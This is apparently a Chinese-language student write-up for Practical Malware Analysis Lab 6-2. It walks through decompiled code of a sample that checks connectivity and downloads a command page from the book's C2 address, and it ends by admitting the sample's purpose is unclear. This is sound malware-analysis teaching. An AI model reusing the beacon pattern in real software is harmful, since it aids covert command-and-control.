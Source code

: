 ```yaml
---
title: "lab 6-2"
date: 2019-06-10T04:41:10+08:00
tags: [""]
categories: ["系统理论课程", "恶意代码分析"]
---
```



## QUESTION 1

> What operation does the first subroutine called by main perform?

查看 `_main` 的汇编代码：

```assembly
.text:00401130 ; =============== S U B R O U T I N E =======================================
.text:00401130
.text:00401130 ; Attributes: bp-based frame
.text:00401130
.text:00401130 ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:00401130 _main           proc near               ; CODE XREF: start+AFp
.text:00401130
.text:00401130 var_8           = byte ptr -8
.text:00401130 var_4           = dword ptr -4
.text:00401130 argc            = dword ptr  8
.text:00401130 argv            = dword ptr  0Ch
.text:00401130 envp            = dword ptr  10h
.text:00401130
.text:00401130                 push    ebp
.text:00401131                 mov     ebp, esp
.text:00401133                 sub     esp, 8
.text:00401136                 call    sub_401000
......
```

可见这个汇编代码调用的第一个子过程是 `sub_401000`，同样的查看它的伪代码：

```pseudocode
signed int sub_401000()
{
  signed int result; // eax@2

  if ( InternetGetConnectedState(0, 0) )
  {
    sub_40117F(aSuccessInterne);
    result = 1;
  }
  else
  {
    sub_40117F(aError1_1NoInte);
    result = 0;
  }
  return result;
}
```

这也是一个判断网络连接状态的函数。

## QUESTION 2

> What is the subroutine located at `0x40117F`?

跳转到这个地址之后查看这个子过程的伪代码：

```c
int sub_40117F(const char *a1, ...)
{
  int v1; // edi@1
  int v2; // ebx@1
  va_list va; // [sp+14h] [bp+8h]@1

  va_start(va, a1);
  v1 = _stbuf(&stru_407160);
  v2 = sub_4013A2(&stru_407160, (int)a1, (int)va);
  _ftbuf(v1, &stru_407160);
  return v2;
}
```

这个跟前面一题的 `printf` 内容是类似的。应该也是一个 `printf` 函数。

## QUESTION 3

> What does the second subroutine called by main do?

先找到 `main` 函数的调用的第二个子过程，是在 `.text:401148` 位置调用的函数 `sub_401040`。

```c
char sub_401040()
{
  char result; // al@2
  char Buffer; // [sp+0h] [bp-210h]@3
  char v2; // [sp+1h] [bp-20Fh]@6
  char v3; // [sp+2h] [bp-20Eh]@7
  char v4; // [sp+3h] [bp-20Dh]@8
  char v5; // [sp+4h] [bp-20Ch]@9
  HINTERNET hFile; // [sp+200h] [bp-10h]@1
  HINTERNET hInternet; // [sp+204h] [bp-Ch]@1
  DWORD dwNumberOfBytesRead; // [sp+208h] [bp-8h]@3
  int v9; // [sp+20Ch] [bp-4h]@3

  hInternet = InternetOpenA(szAgent, 0, 0, 0, 0);
  hFile = InternetOpenUrlA(hInternet, szUrl, 0, 0, 0, 0);
  if ( hFile )
  {
    v9 = InternetReadFile(hFile, &Buffer, 0x200u, &dwNumberOfBytesRead);
    if ( v9 )
    {
      if ( Buffer != 60 || v2 != 33 || v3 != 45 || v4 != 45 )
      {
        sub_40117F(aError2_3FailTo);
        result = 0;
      }
      else
      {
        result = v5;
      }
    }
    else
    {
      sub_40117F(aError2_2FailTo);
      InternetCloseHandle(hInternet);
      InternetCloseHandle(hFile);
      result = 0;
    }
  }
  else
  {
    sub_40117F(aError2_1FailTo);
    InternetCloseHandle(hInternet);
    result = 0;
  }
  return result;
}
```

我们逐个分析，对于：

```c
hInternet = InternetOpenA(szAgent, 0, 0, 0, 0);
// szAgent ==> 字符常量 Internet Explorer 7.5/pma
```

这一行代码通过 `Internet Explorer 7.5`  打开了一个浏览器。

对于：

```c
hFile = InternetOpenUrlA(hInternet, szUrl, 0, 0, 0, 0);
// szUrl ==> 字符常量 http://www.practicalmalwareanalysis.com/cc.htm
```

这一行代码在之前打开的浏览器中打开了一个链接 `http://www.practicalmalwareanalysis.com/cc.htm`。

对于：

```c
v9 = InternetReadFile(hFile, &Buffer, 0x200u, &dwNumberOfBytesRead);
```

这一行代码将打开的网页读入变量中。

对于：

```c
sub_40117F(aError2_3FailTo);
// aError2_3FailTo ==> 字符常量 Error 2.3: Fail to get command
......
sub_40117F(aError2_2FailTo);
// aError2_3FailTo ==> 字符常量 Error 2.2: Fail to ReadFile
......
sub_40117F(aError2_1FailTo);
// aError2_1FailTo ==> 字符常量 Error 2.1: Fail to OpenUrl
```

都是用于抛出异常、错误的函数。

**结论**：综上所述，这个函数用于读取 `http://www.practicalmalwareanalysis.com/cc.htm` 的内容，并且将其作为函数的返回结果返回。读取失败会抛出异常。

## QUESTION 4

> What type of code construct is used in this subroutine?

主要是 `if` 语句。

## QUESTION 5

> Are there any network-based indicators for this program?

有。主要有以下三点：

1. 静态分析这个应用程序引用的动态链接库，有调用网络相关的 API 函数；
2. 动态分析这个应用程序，运行这个应用程序将检测到 DNS 请求。
3. 这个应用应用程序的全局变量（字符串）区有 `http://www.practicalmalwareanalysis.com/cc.htm` 这样的字符串。

## QUESTION 6

> What is the purpose of this malware?

我们尝试把网页尝试下载的内容下载下来：

```bash
$ wget http://www.practicalmalwareanalysis.com/cc.htm
--2019-06-05 15:00:49--  http://www.practicalmalwareanalysis.com/cc.htm
Resolving www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)... 192.0.78.24, 192.0.78.25
Connecting to www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)|192.0.78.24|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://www.practicalmalwareanalysis.com/cc.htm [following]   
--2019-06-05 15:00:50--  https://www.practicalmalwareanalysis.com/cc.htm
Connecting to www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)|192.0.78.24|:443... connected.
```

一直卡在了这个位置。我们直接用 `Chrome` 访问发现出现了 404 错误。

暂时不清楚这个恶意代码的作用。
